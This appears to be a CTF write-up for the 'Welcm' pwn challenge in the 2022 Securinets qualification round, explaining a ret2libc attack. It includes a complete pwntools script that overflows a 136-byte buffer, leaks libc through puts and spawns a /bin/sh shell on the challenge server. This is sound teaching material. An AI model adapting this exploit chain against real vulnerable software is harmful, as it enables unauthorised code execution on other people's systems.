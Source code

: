 # National Cyber Security Congress

[Securiday](https://www.facebook.com/Securiday-104756755537130/) qualifiation round, hosted by [Securinets](https://www.facebook.com/Securinets), a 24 hour CTF. Top #10 teams will be able to compete in Securiday CTF.<br/>
I've participated in the CTF as a member of Enthousiast team. We ranked 22 out of 295 teams.

<br/>
<hr>

* ### Welcm

For this one, we get a binary & a libc, what a time saver.

As a start, we'll check the security of the binary.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec.png"><br/>
</p>
<br />

Now, let's check the binary in Ghidra:
<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/welcm.png"><br/>
</p>
<br />

A basic ret2libc, we check ropper for a `pop rdi` gadget:

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/pop_rdi.png"><br/>
</p>
<br />

Now, let's head to GDB, we check the functions we have ( `info functions` )

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb.png"><br/>
</p>
<br />

No tricks I see, We have everything we'll need.

As a start, we'll need to leak a libc address from the GOT entry. Since we have `puts` available in the binary, we can use it to leak our address. After that, we'll be able to calculate the libc base address. Therefore, we'll be able to find `system` address in memory alongside our `/bin/sh` string.

Summary:

1. Return to `puts`, giving it it's own GOT entry address as a parameter.
2. Find libc base address.
3. Return to `system` giving it `/bin/sh` as parameter.

Considering Ghidra's output, we have 128 bytes for our input + 8 bytes for the RBP, which gives us a total of 136 bytes for the RIP offset. We can start writing our payload.

<details>
  <summary>Show payload</summary>
  
  ```python
  #!/usr/bin/env python3

  from pwn import *

  exe = ELF("./welc_patched")
  libc = ELF("./libc.so.6", checksec=False)

  context.binary = exe
  LOCAL = False


  def conn():
      if LOCAL:
          r = process([exe.path])
      else:
          r = remote("20.216.39.14", 1237)

      return r


  def main():
      r = conn()

      PUTS_PLT = p64(0x0000000000401060)
      PUTS_GOT = p64(0x404018)
      POP_RDI  = p64(0x0000000000401283)
      MAIN     = p64(0x00000000004011db)
      MAIN_RET = p64(0x000000000040121e)

      offset = 136

      # First stage
      # Leak puts address & return to main for stage 2
      payload = b"A"*offset
      payload += POP_RDI
      payload += PUTS_GOT
      payload += PUTS_PLT
      payload += MAIN

      print(payload)

      r.sendline(payload)

      r.recvuntil(b'about you ?\n')
      leak_puts = u64(r.readline()[:-1].ljust(8, b'\x00'))
      base_libc = leak_puts - libc.sym['puts'] # Libc base

      print('Leaked libc           :', hex(leak_puts))
      print('Libc base             :', hex(base_libc))

      SYSTEM = p64(libc.sym['system'] + base_libc)
      BIN    = p64(next(libc.search(b'/bin/sh')) + base_libc)

      # Stage 2, System("/bin/sh")
      payload = b"A"*offset
      payload += MAIN_RET # Alignement
      payload += POP_RDI
      payload += BIN
      payload += SYSTEM

      r.sendline(payload)

      r.interactive()


  if __name__ == "__main__":
      main()
  ```
</details>
